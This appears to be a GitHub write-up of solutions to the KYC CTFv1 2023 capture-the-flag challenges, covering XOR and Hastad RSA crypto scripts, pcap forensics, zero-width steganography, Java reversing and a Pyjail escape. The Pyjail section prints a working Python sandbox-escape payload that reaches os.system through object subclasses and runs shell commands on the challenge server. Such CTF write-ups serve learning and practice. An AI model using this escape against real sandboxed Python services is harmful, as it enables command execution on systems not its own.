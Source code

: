 # Know Your Click KYC CTFv1 - 2023

## Table of Contents
- [Challenges](#challenges)
    - [Cryptography](#cryptography)
        - [I am a Clueless](#i-am-a-clueless)
        - [Quick Quick Mathematics](#quick-quick-mathematics)
    - [Forensics](#forensics)
        - [Locate me](#locate-me)   
    - [Steganography](#steganography)
        - [1nv1s1bl3](#1nv1s1bl3)
    - [Reverse Engineering](#reverse-engineering)
        - [Keith Orders a Pizza](#keith-orders-a-pizza)
    - [Sandbox](#sandbox)
        - [Pyjail](#pyjail)


## Challenges

### Cryptography

#### I am a Clueless
- Points: 482
- Description: `I know it sounds mental, but sometimes I have more fun vegging out than when I go partying. Maybe because my party clothes are so binding. But the question is : Who am I? (You don't know my name)`
- Ciphertext: `7ax6dx72x4fx47x01x04x6ex56x73x42x5dx52x6bx55x01x46x6ex4dx03x44x6bx59x41x5bx00x05x4c`
- Key :`14(ILOVEYOU)`
- Key : `14143`

Solution:
- After every two letters x is repeating in cipher text.
- So we created python script to solve this challenge.
- Script 
``` 
import base64

cipher = "7ax6dx72x4fx47x01x04x6ex56x73x42x5dx52x6bx55x01x46x6ex4dx03x44x6bx59x41x5bx00x05x4c".split('x')
key = ['3' + i for i in "14143"]

res = []
for i, n in enumerate(cipher):
	x = int(n, 16)
	y = int(key[i % len(key)], 16)
	res.append(hex(x ^ y)[2:])

res = "".join(res)
print(bytes.fromhex(res).decode())

```
- Then wrap it in the flagformat KYC{}.
- Flag: `KYC{t00_b@sic_f0r_y0u_huh11}`
![image](https://user-images.githubusercontent.com/82113145/215673287-0ee23bb1-c2c8-4a71-a111-385af8d3649c.png)



#### Quick Quick Mathematics
- Points: 207
- DEscription : `Dodo has encrypted a message with the same value of 'e' for 3 public moduli - n1 = 86812553978993 n2 = 81744303091421 n3 = 83695120256591 and got the cipher texts - c1 = 8875674977048 c2 = 70744354709710 c3 = 29146719498409 Find the original message.`


Solution:
- We can solve this challenge by just using hastad attack. 
- We created this python script to solve this challenge.
```
from pwn import remote
from sympy.ntheory.modular import crt
from gmpy2 import iroot

e = 3
N = [86812553978993, 81744303091421, 83695120256591]
C = [8875674977048, 70744354709710, 29146719498409]

resultant, mod = crt(N,C)
value, is_perfect = iroot(resultant,e)
print(bytes.fromhex(str(value)).decode())

```
- Flag: `KYC{h45t4d}`

### Forensics

#### Locate me
- Points: 148
- Description: `Our forensics experts have acquired the following traffic using a MITM during a pentesting. Can you help us locating the file extracted by hackers?`

Resources/Scripts:
- [CaptureFile](./Scripts/LocateMe/infiltration.pcapng)
- Wreshark Tool

Solution:
- This a network analysis challenge.
- The challenge description says that we have to the file name which attacker extracted from the infected server. 
- We can see some protocols in the capture such as HTTP,TCP,SMB,FTP,etc..
- There are 2 protocols which are mainly for file transfer: SMB & FTP.
- I checked FTP but no good results.
 ![https://imgur.com/a/2hilcZm](https://i.imgur.com/KW3frOL.png)
- But when I checked SMB Protocol, I got the file name which is `PSEXESVC.EXE`.
 ![https://imgur.com/a/pzl4HaB](https://i.imgur.com/nvE4iOg.png)
- So the flag is: `KYC{PSEXESVC_EXE}`


### Steganography

#### 1nv1s1bl3
- Points: 128
- Description: `I am john cena.`

Resources/Scripts:
- [ZeroWidthEncodeDecode](https://330k.github.io/misc_tools/unicode_steganography.html)
- [EncodedFile](./Scripts/invisible/1nv1s1bl3.txt)

Solution:
- The challenge name suggests that the flag is invisible/hidden.
- After looking into the file, the number of characters is more than the count of the characters.
- This is probably the ZeroWidth Character Steganography.
- Copy all the text and goto [this](https://330k.github.io/misc_tools/unicode_steganography.html) link and paste it in right side and click decode. We'll get the flag.
 ![https://imgur.com/a/rBuh0HH](https://i.imgur.com/XsdGaxn.png)
- Flag: `KYC{1_Am_j0hn_c3na}`



### Reverse Engineering

#### Keith Orders a Pizza
- Points: 196
- Description: `Keith’s friend wants to get a pizza. When Keith asked their friend what topping he should get, their friend wrote the following code down on a napkin, and told them that the solution would be his favorite topping. See if you can help Keith break the code.`

Resources/Scripts:
- [Challenge Code](./Scripts/KeithPizza/topping.java)
- [Solution Code](./Scripts/KeithPizza/decode.py)

Solution:
- This is a basic java code where there are 2 functions used the encode the text.
- I have written the python code to reverse that function and find the flag and mentioned it in Resources/Scripts.
- Flag: `KYC{anchovies}`


### Sandbox

#### Pyjail
- Points: 250
- Description: `Break the jail :)`

Solution:
- We are given a sandboxed python shell where we can't import any modules.
- We are only allowed to use already imported builtin modules which are not blacklisted.
- By using this command we can list all the classes and functions in the module.
```
print(().__class__.__bases__[0].__subclasses__())
```
- We can see that there is a `_wrap_close` class in the `os` module.
- The parent of this class is `os`.
- By using this, we'll execute commands.
- First we'll get the index of `_wrap_close` class in the list but using this command:
```
print([entry.__name__ for entry in ().__class__.__bases__[0].__subclasses__()].index("_wrap_close"))
```
- Then we can execute os commands by using this command:
```
print([].__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('ls'))
```
- We can see that there is a `Flag.txt` file.
- Now we can read the file by using this command:
```
print(open('Flag.txt').read())
```
- Complete Commands:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc 23.23.44.100 5000
>>> print([entry.__name__ for entry in ().__class__.__bases__[0].__subclasses__()].index("_wrap_close"))
137
>>> print([].__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('ls'))
Dockerfile
Flag.txt
build.sh
jail.py
0
>>> print(open('Flag.txt','r').read())
KYC{Y0u_Br3k4n_th3_j@1l}
```

- Flag: `KYC{Y0u_Br3k4n_th3_j@1l}`
